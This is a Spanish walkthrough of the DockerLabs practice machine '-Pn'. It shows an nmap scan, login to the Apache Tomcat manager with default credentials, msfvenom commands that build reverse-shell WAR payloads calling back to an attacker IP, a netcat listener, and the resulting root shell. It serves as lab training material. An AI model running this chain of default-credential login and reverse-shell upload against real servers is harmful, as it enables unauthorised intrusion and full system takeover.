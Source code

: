 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "-Pn".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh pn.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene  abierto el puerto 8080 donde corre un Tomcat.
```
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

```
Vamos pues a acceder al puerto 8080, por lo que vamos a poner la IP de la maquina victima seguida del puerto en el navegador Web y vemos que sale la pagina por defecto del Apache Tomcat.

Se puede observar tambien que hay una parte, en la linea del "tomcat9-admin" donde pone "manager webapp" donde pincharemos y se nos abrira un panel Login.

Hay que entender ahora una cosa y es que, por defecto, Apache Tomcat ya viene con unas credenciales por defecto.

Para obtenerlas, buscamos en Google "hacktricks apache tomcat default credentials" y en la propia Web de "hacktricks" iremos al siguiente enlace:

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

Una vez estemos en esta pagina, iremos a la seccion donde pone "Default credentials" donde se veran varias posibles contraseñas, las cuales habria que ir probando una por una.

Un truquito, aunque no siempre funciona, seria darle a "Cancel" en el panel de Login, y al darnos el error 401 de "No autorizado" suelen dar las credenciales.

Pero como como acabo de decir, NO siempre funciona.
```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation.

That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

	<role rolename="manager-gui"/>
    <user username="tomcat" password="s3cr3t" roles="manager-gui"/>
```
Bien, ya sabiendo el usuario y la contraseña, hacemos login, vamos al panel de administracion de Tomcat y nos ubicamos en la zona donde pone "WAR file to deploy", donde podremos subir archivos maliciosos en formato ".war" para poder ganar acceso a dicha maquina victima.
¿Y como creo un archivo malicioso? EXACTO !!! Con MSFVENOM !!!
```
msfvenom -p java/shell_reverse_tcp LHOST=IPMAQUINAATACANTE LPORT=PUERTOMAQUINAATACANTE -f war -o NOMBREARCHIVOQUEQUERAMOS.war
            
	-p java/shell_reverse_tcp = ponemos el payload reverse shell de JAVA debido a que los archivos ".war" funcionan con JAVA
```
 Una vez tengamos el archivo, lo subiremos y probaremos si funciona. ¿Por que digo probaremos si funciona? Porque lo normal es que lo haga, pero muchas veces, y dependiendo de como este hecho el servidor puede funcionar o no. Para ello, vamos a ver dos opciones (bueno, en realidad 2 Payloads diferentes):
```
1) msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse1.war

2) msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse2.war
```
Como he dicho antes, esto depende de come este configurado el servidor Tomcat, por lo que asi nos aseguramos que alguno de los dos funcione.
Ahora subimos los dos y nos apareceran en la pantalla de control del Tomcat Web Manager App:
```
/reverse1 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
/reverse2 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
ddddddddddddddd```
Perfecto, ya tenemos los dos archivos subidos. Lo siguiente, COMO SIEMPRE, es ponernos a la escucha con NETCAT usando el comando:
```
nc -nlvp 443
```
y ejecutar los archivos uno por uno para ver cual de los dos funciona (o los 2 :P)
Ejecutado el primero, ya vemo que SI funciona:
```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36530  
```
Perfecto !! Ahora sin embargo, hay que hacer, COMO SIEMPRE, un tratamiento de la TTY escribiendo lo siguiente:
```
(El tratamiento TTY SIEMPRE es igual)

	script /dev/null -c bash
	Ahora presionamos (CTRL + Z)
	stty raw -echo; fg
	reset xterm
	export TERM=xterm
	export SHELL=bash
```
Una vez terminado el tratamiento de la TTY, vemos que ya somos "root", pero para asegurarnos, escrimos "whoami" y listo :) !!
```
root@aad1731916f7:/# whoami
root

root@aad1731916f7:/# 
```
Y en principio, con esto ya estaria la maquina "-Pn" terminada.
